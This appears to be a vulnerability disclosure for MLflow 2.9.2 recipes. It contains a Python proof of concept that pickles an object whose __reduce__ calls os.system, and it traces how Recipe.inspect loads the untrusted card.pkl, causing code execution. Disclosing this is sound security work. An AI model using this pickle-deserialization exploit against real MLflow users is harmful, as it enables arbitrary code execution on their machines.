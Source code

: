 v2.9.2
PoC：

```python
import pickle
import os
class test():
    def __reduce__(self):
        command=r"id >/tmp/mlflow"
        return (os.system,(command,))

with open('./card.pkl', 'wb') as f:
   pickle.dump(test(), f)
   

from mlflow.recipes import Recipe

os.environ['MLFLOW_RECIPES_EXECUTION_DIRECTORY']='/mlflow/recipes/'
os.chdir("./recipes")
regression_recipe = Recipe(profile="local")
# Inspect the model training results
regression_recipe.inspect(step="train")
```

Process

1. When inspecting the "train" step, it triggers the following execution flow:

```python
def inspect(self, step: str = None) -> None:
# ...if not step:
            display_html(html_file_path=self._get_recipe_dag_file())
        else:
            output_directory = get_step_output_path(self._recipe_root_path, step, "")
            self._get_step(step).inspect(output_directory)

```

1. Get the step(train) output path:

```python
def get_step_output_path(recipe_root_path: str, step_name: str, relative_path: str) -> str:
#...
    execution_dir_path = get_or_create_base_execution_directory(recipe_root_path=recipe_root_path)
    step_outputs_path = _get_step_output_directory_path(
        execution_directory_path=execution_dir_path,
        step_name=step_name,
    )
    return os.path.abspath(os.path.join(step_outputs_path, relative_path))

```

1.  Load the card_pickle:

```python
def inspect(self, output_directory: str):
#...
        card_path = os.path.join(output_directory, CARD_PICKLE_NAME)
        if not os.path.exists(card_path):
#...

        card = BaseCard.load(card_path)#<---Here is the issue!#...
```

When a user loads a recipe card model that in the internet and inspects the model training results, it might result in a code execution.
